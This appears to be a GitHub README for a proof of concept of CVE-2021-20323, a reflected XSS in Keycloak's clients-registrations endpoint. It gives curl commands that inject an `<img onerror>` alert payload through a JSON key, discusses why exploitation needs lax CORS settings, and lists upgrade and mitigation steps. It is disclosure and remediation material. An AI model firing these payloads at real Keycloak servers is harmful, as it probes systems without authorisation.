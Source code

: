 # CVE-2021-20323
## Description

Keycloak before 18.0.0 and after 10.0.0 contains a reflected XSS on the clients-registrations endpoint. The bug is triggered by providing, by POST, a json structure with a key as parameter name that is not supported by the endpoint. The response return reflects the json key in an error message and with header set as `Content-Type: text/html`. When executed in a browser, html code from the json key is interpreted allowing to trigger JavaScript code. No authentication is required and the bug impacts all available realms.

Currently, due to the bug requiring `Content-Type: application/json` and is submitted via a POST, there is no common path to exploit that have a user impact.

This repository provides a POC for CVE-2021-20323 and remediation/mitigation recommendations.

## How to trigger the bug

The bug is very easy to trigger.
```bash
curl -v -X POST {BaseURL}/realms/master/clients-registrations/default -H "Content-type: application/json" -d "{\"<img src=x onerror=\\\"alert('XSS')\\\"/>\":1}"
```

It is also possible to trigger it with the `openid-connect` provider.
```bash
curl -v -X POST {BaseURL}/realms/master/clients-registrations/openid-connect -H "Content-type: application/json" -d "{\"<img src=x onerror=\\\"alert('XSS')\\\"/>\":1}"
```


*Note: On older Keycloak versions (the one running with wildfly instead of quarkus) the base path uses `/auth/realms/*` instead of `/realms/*`*

## Is the bug exploitable ?

As we can see in multiple sources [here](https://security.stackexchange.com/questions/263301/reflected-xss-found-in-web-application-via-post-request-with-json-body-is-this) or [here](https://security.stackexchange.com/questions/263301/reflected-xss-found-in-web-application-via-post-request-with-json-body-is-this), it is not commonly possible to exploit a reflectect POST XSS that requires `Content-Type: application/json` to be vulnerable. The only case where it could happen is if CORS policy were manually laxed from default to allow cross-origin requests. This scenario is only reasonable to assume in very specific use cases made for functional reasons by the application owner. In order to be exploitable in such case, the attacker should either be in control of the domain/server allowed in CORS policy or have an XSS on this second domain that could be used as a relay.

With CVE-2021-20323, Keycloak does not accept POST with `Content-Type` of `multipart/form-data` or `application/x-www-form-urlencoded` which are the only two types allowed in a basic `form` submit. This makes CVE-2021-20323 only exploitable if CORS explicitely allows it.

```bash
# curl -X POST {BaseURL}/realms/master/clients-registrations/default -H "Content-type: multipart/form-data" -d "{\"<img src=x onerror=\\\"alert('XSS')\\\"/>\":1}"
{"error":"RESTEASY003065: Cannot consume content type"}

# curl -X POST {BaseURL}/realms/master/clients-registrations/default -H "Content-type: application/x-www-form-urlencoded" -d "{\"<img src=x onerror=\\\"alert('XSS')\\\"/>\":1}"
{"error":"RESTEASY003065: Cannot consume content type"}
```

## How to fix ?

Update to Keycloak 18.0.0 or later.

No known fixed version for RedHat Single Sign-On which is a repackaged version of Keycloak by RedHat.

## Mitigation alternatives

1. Put in place a reverse proxy to forbid any call to `clients-registrations`
2. Configure Keycloak with ACL to limit access to `clients-registrations`, similarly to this [Keycloak blog post](https://www.keycloak.org/2021/12/cve)

## Links

- https://github.com/keycloak/keycloak/security/advisories/GHSA-m98g-63qj-fp8j
- https://nvd.nist.gov/vuln/detail/CVE-2021-20323
- https://bugzilla.redhat.com/show_bug.cgi?id=2013577
- https://access.redhat.com/security/cve/CVE-2021-20323
- https://github.com/keycloak/keycloak/commit/3aa3db16eac9b9ed8c5335ac86f5f50e0c68662d
- https://security.stackexchange.com/questions/263301/reflected-xss-found-in-web-application-via-post-request-with-json-body-is-this
- https://www.keycloak.org/2021/12/cve

## License

[MIT License](https://opensource.org/licenses/MIT) © [ndmalc]